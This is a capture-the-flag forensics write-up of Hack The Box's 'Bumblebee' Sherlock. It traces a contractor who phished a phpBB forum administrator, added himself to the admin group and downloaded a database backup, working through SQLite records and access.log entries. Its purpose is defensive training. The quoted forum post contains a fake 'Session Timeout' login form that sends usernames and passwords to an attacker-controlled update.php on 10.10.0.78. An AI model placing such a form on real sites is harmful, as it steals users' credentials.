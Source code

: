 ```yaml
---
title: "HTB Sherlock Bumblebee"
date: 2024-06-15T03:54:17-04:00
tags:
  - htb
  - sherlock
  - dfir
  - access
  - log
  - phpbb
  - sqlite3
  - phishing
  - linux
---
```


# Bumblebee (DFIR)

### Scenario
An external contractor has accessed the internal forum here at Forela via the Guest Wi-Fi, and they appear to have stolen credentials for the administrative user! We have attached some logs from the forum and a full database dump in sqlite3 format to help you in your investigation.

### Artifacts
|Artifact|MD5 Hash|Password|
|----|----|----|
|bumblebee.zip|ba06e26779ead4b6299b6a188d11fc02|hackthebkue|
|incident.tgz|1b301c2fb2a1232758aca31588506edf|n/a|

### Tools Used
+ SQLite Browser - For `phpbb.sqlite3` database analysis.
+ Linux Terminal - For `access.log` analysis.

### Forensic Analysis

**Analyzing SQLite3 Database**

The contractor's user information are listed below.
![User Info](images/20240613104708.png)


The contractor's post information for the forum are listed below.
![Post Info](images/20240613105158.png)

Post contents malicious part
```html
<--snip-->
<div id="page-body" class="page-body" role="main">
<div class="panel">
<div class="inner">

<div class="content">
<h3>Session Timeout</h3> <br /> <br />
<p>Your session token has timed out in order to proceed you must login again.</p>
</div>

</div>
</div>

<form action="http://10.10.0.78/update.php" method="post" id="login" data-focus="username" target="hiddenframe">
<div class="panel">
<div class="inner">
<div class="content">

<h2 class="login-title">Login</h2>
<fieldset class="fields1">

<dl>
<dt><label for="username">Username:</label></dt>
<dd><input type="text" tabindex="1" name="username" id="username" size="25"
value="" class="inputbox autowidth"></dd>
</dl>

<dl>
<dt><label for="password">Password:</label></dt>
<dd><input type="password" tabindex="2" id="password" name="password" size="25" class="inputbox autowidth" autocomplete="off"></dd>
</dl>

<dl>
<dd><label for="autologin"><input type="checkbox" name="autologin"
id="autologin" tabindex="4">Remember me</label></dd>
<dd><label for="viewonline"><input type="checkbox" name="viewonline"
id="viewonline" tabindex="5">Hide my online status this session</label></dd>
</dl>

<dl>
<dt>&nbsp;</dt>
<dd> <input type="submit" name="login" tabindex="6" value="Login"
class="button1" onclick="sethidden()"></dd>
</dl>

</fieldset class="fields1">
</div>
</div>
</div>
</form>
</div>
```

At this point we have identified the malicious IP `10.10.0.78`, and was used to access the forum as well as staging a credential stealer namely `update.php`. 

Browsing the `phpbb_log` table we found additional information when the contractor logged in as Administrator. The real Administrator's IP was `10.255.254.2`. Upon Investigating the `access.log` artifact we can verify their information like User-Agent, which URLs were visited to get a sense of baseline activity which are normal for an Administrator user.

Then we can use those information against the threat actor to accurately paint a picture of the malicious activities that was done.

**Analyzing `access.log`**

An access.log file can have a vast volume of data it is recommended to use Splunk or ElasticSearch or any kind of SIEM tool to quickly find and triage information. But, in our case we have relatively small amount of data and we can use basic Linux commands to filter and search for the information we are looking for.

Filtering the access.log file is very helpful to find the actual data we are looking for. For example, we don't need the data when a page loads and request are made to load CSS, images, assets to render the UI.

We can easily filter those types of requests using `egrep`. The command for filtering assets related data is given below:
```bash
cat access.log | egrep -v "/(assets|style|images)"
```

Here `-v` returns everything except the matching pattern.

Let's search for the legit Administrator's User Agent information.
```bash
$ cat access.log | egrep -v "/(assets|style|images)" | egrep -i 10.255.254.2 | head -n1
10.255.254.2 - - [25/Apr/2023:12:08:42 +0100] "GET /adm/index.php?sid=ac1490e6c806ac0403c6c116c1d15fa6&i=12 HTTP/1.1" 403 9412 "http://10.10.0.27/adm/index.php?sid=ac1490e6c806ac0403c6c116c1d15fa6&i=1" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36"
```

Let's search for the adversary's User Agent information.
```bash
$ cat access.log | egrep -v "/(assets|style|images)" | egrep -i 10.10.0.78 | head -n1 
10.10.0.78 - - [25/Apr/2023:12:07:39 +0100] "GET / HTTP/1.1" 200 4205 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:106.0) Gecko/20100101 Firefox/106.0"
```

The contractor added himself to the administrator group.
```bash
$ cat access.log | egrep -v "/(assets|style|images)" | egrep -i 10.10.0.78 | grep adm | grep acp_groups | grep POST
10.10.0.78 - - [26/Apr/2023:11:53:51 +0100] "POST /adm/index.php?i=acp_groups&sid=eca30c1b75dc3eed1720423aa1ff9577&icat=12&mode=manage&g=5 HTTP/1.1" 200 2623 "http://10.10.0.27/adm/index.php?i=acp_groups&sid=eca30c1b75dc3eed1720423aa1ff9577&icat=12&mode=manage&action=list&g=5" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0"
```

The contractor also sent two requests to backup the database.
```bash
$ cat access.log | egrep -v "/(assets|style|images)" | egrep -i 10.10.0.78 | grep adm | grep action=download            
10.10.0.78 - - [26/Apr/2023:11:54:22 +0100] "POST /adm/index.php?i=acp_database&sid=eca30c1b75dc3eed1720423aa1ff9577&mode=backup&action=download HTTP/1.1" 200 2463 "http://10.10.0.27/adm/index.php?sid=eca30c1b75dc3eed1720423aa1ff9577&i=acp_database&mode=backup" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0"
10.10.0.78 - - [26/Apr/2023:11:54:24 +0100] "GET /adm/index.php?i=acp_database&sid=eca30c1b75dc3eed1720423aa1ff9577&mode=backup HTTP/1.1" 200 3771 "http://10.10.0.27/adm/index.php?i=acp_database&sid=eca30c1b75dc3eed1720423aa1ff9577&mode=backup&action=download" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0"
10.10.0.78 - - [26/Apr/2023:11:54:30 +0100] "POST /adm/index.php?i=acp_database&sid=eca30c1b75dc3eed1720423aa1ff9577&mode=backup&action=download HTTP/1.1" 200 2474 "http://10.10.0.27/adm/index.php?i=acp_database&sid=eca30c1b75dc3eed1720423aa1ff9577&mode=backup" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0"
10.10.0.78 - - [26/Apr/2023:11:56:28 +0100] "GET /adm/index.php?i=acp_database&sid=eca30c1b75dc3eed1720423aa1ff9577&mode=backup HTTP/1.1" 200 3770 "http://10.10.0.27/adm/index.php?i=acp_database&sid=eca30c1b75dc3eed1720423aa1ff9577&mode=backup&action=download" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0"
```

And finally they downloaded the database backup.
```bash
$ cat access.log | egrep -v "/(assets|style|images)" | egrep -i 10.10.0.78 | grep .sql
10.10.0.78 - - [26/Apr/2023:12:01:38 +0100] "GET /store/backup_1682506471_dcsr71p7fyijoyq8.sql.gz HTTP/1.1" 200 34707 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0"
```

The database backup file size was `34707` bytes (34.7 KB) in size.

### Summary
The contractor used his account to stage a phishing page in the internal forum of Forela. Then he stole the Administrator's credential using the phishing page and exfiltrated the data using a credential stealer (httx://10.10.0.78/update.php) hosted on the IP `10.10.0.78`. Then, they used the stolen Administrator credential created an account (apoole) for persistence. Then they backed up and downloaded the database.
